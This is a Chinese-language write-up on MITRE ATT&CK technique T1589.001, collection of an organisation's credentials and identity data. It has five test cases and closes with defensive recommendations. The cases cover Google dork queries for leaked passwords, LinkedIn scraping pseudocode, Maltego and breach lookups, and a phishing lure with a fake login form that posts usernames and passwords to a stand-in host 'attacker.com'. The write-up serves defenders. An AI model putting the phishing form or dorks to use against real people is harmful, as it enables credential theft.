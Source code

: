 # T1589-001-收集目标组织身份信息-凭证

## 来自 ATT&CK 的描述

攻击者通过收集目标组织身份信息-凭证（T1589.001）获取受害者的身份数据（如员工姓名、电子邮件地址、用户名、密码等），为后续攻击（如钓鱼 T1566、有效账号 T1078 或凭证爆破 T1110）提供情报。这些操作通常在攻击者的外部环境（如自己的主机、云服务）进行，例如通过社交媒体爬取、搜索引擎挖掘（如 Google Hacking）、网络情报工具（如 Shodan、FOFA）、钓鱼攻击或公开数据泄露（如密码数据库）收集凭证。由于这些活动发生在目标组织视野之外，直接检测较为困难，但凭证可能被用于后续的初始访问或横向移动。本文档聚焦于 Windows 环境下的凭证收集案例和防御建议。

## 测试案例

#### 测试案例 1：Google Hacking 搜索凭证
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用 Google Hacking 语法搜索公开暴露的凭证或敏感信息，通常在攻击者自己的设备上执行。  
**示例操作**：
```bash
:: 在浏览器中输入以下 Google 搜索语法
intext:password filetype:txt site:*.org
intext:username password site:pastebin.com
intext:"email password" site:*.gov
```
**输出示例**：
```
- 搜索结果可能包含公开的文本文件或 Pastebin 页面，泄露用户名和密码。
- 示例：user:admin password:Admin2025
- 示例：email:john.doe@example.org password:Pass1234
```
**说明**：  
- 攻击者利用搜索引擎发现目标组织的凭证或敏感信息。  
- 关联 T1589.001：通过公开数据收集身份信息。

#### 测试案例 2：社交媒体爬取员工信息
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 通过 LinkedIn、Twitter 或其他社交媒体平台收集员工姓名、职位、电子邮件等信息，通常使用爬虫工具或 OSINT 框架。  
**示例操作**（Python 伪代码）：
```python
import requests
url = "https://www.linkedin.com/company/example-org/people/"
response = requests.get(url)
# 解析 HTML，提取员工信息
# 输出：姓名、职位、可能的电子邮件
```
**输出示例**：
```
Name: John Doe, Title: IT Manager, Email: john.doe@example.org
Name: Jane Smith, Title: HR Director, Email: jane.smith@example.org
```
**说明**：  
- 收集员工身份信息，用于定制钓鱼攻击。  
- 关联 T1589.001：通过社交媒体获取凭证相关数据。

#### 测试案例 3：钓鱼模拟收集凭证
**关联技术**：T1589.001（凭证收集）、T1566（钓鱼）  
**说明**：  
- 攻击者发送钓鱼邮件或创建伪造登录页面，诱导目标输入凭证，通常在外部服务器上执行。  
**示例操作**：
- 发送伪造邮件，包含链接到攻击者控制的登录页面：
  ```
  Subject: 紧急：请验证您的账号
  Body: 请点击以下链接更新您的密码：http://fake-example.com/login
  ```
- 伪造登录页面（HTML 伪代码）：
  ```html
  <form action="http://attacker.com/collect" method="POST">
      用户名: <input type="text" name="username">
      密码: <input type="password" name="password">
      <input type="submit" value="登录">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
username=johndoe&password=Pass1234
```
**说明**：  
- 通过钓鱼攻击收集用户凭证。  
- 关联 T1589.001：通过钓鱼获取凭证。

#### 测试案例 4：查询公开数据泄露
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用公开数据泄露数据库（如 Have I Been Pwned）查询目标邮箱的泄露凭证，通常在攻击者设备上通过 API 或网站执行。  
**示例操作**：
```bash
:: 在浏览器访问
https://haveibeenpwned.com/
:: 输入目标邮箱：john.doe@example.org
```
**输出示例**：
```
Breaches:
- LinkedIn (2012-05-05)
- Adobe (2013-10-04)
```
**说明**：  
- 检查目标邮箱是否出现在数据泄露中，可能获取密码。  
- 关联 T1589.001：通过公开泄露获取凭证。

#### 测试案例 5：使用 OSINT 工具收集身份信息
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用开源情报（OSINT）工具（如 Maltego、SpiderFoot）收集目标组织的身份信息，包括邮箱、用户名或关联账号。  
**示例操作**：
- 在 Maltego 中：
  - 输入目标域名：example.org
  - 运行变换（Transform）：提取邮箱、社交媒体账号
**输出示例**：
```
Domain: example.org
Emails: john.doe@example.org, jane.smith@example.org
Twitter: @JohnDoe, @JaneSmith
```
**说明**：  
- 整合公开数据，构建目标身份画像。  
- 关联 T1589.001：通过 OSINT 获取凭证相关信息。

## 建议

1. **防御措施**：
   - **员工培训**：开展反钓鱼和隐私保护培训，提高员工对伪造邮件和社交工程的警惕性。
   - **数据最小化**：限制员工在社交媒体和公开网站上暴露的身份信息（如邮箱、职位）。
   - **邮件网关**：部署反钓鱼网关，检测伪造邮件和可疑链接。
   - **密码策略**：强制使用强密码，定期更换，避免密码重用。
   - **多因素认证（MFA）**：为所有账号启用 MFA，降低凭证被盗风险。
2. **后续阶段监控**：
   - 监控钓鱼攻击（T1566），如异常登录尝试（事件 ID 4624）或可疑邮件点击。
   - 检测有效账号使用（T1078），如非预期时间/地点的登录。
   - 使用 EDR 或 SIEM 关联异常行为，如凭证爆破（T1110）或外部 API 请求。
3. **外部情报监控**：
   - 定期检查公开数据泄露（如 Have I Been Pwned），通知员工更新受损凭证。
   - 监控社交媒体和暗网，识别针对组织的身份信息收集。
   - 与威胁情报服务合作，获取针对组织的侦察预警。
4. **降低误报**：
   - 区分合法的员工行为（如访问 LinkedIn）与攻击者的爬取活动。
   - 结合上下文分析，如异常访问时间、来源 IP 或高频查询。

## 参考推荐

- MITRE ATT&CK - T1589.001
  <https://attack.mitre.org/techniques/T1589/001/>
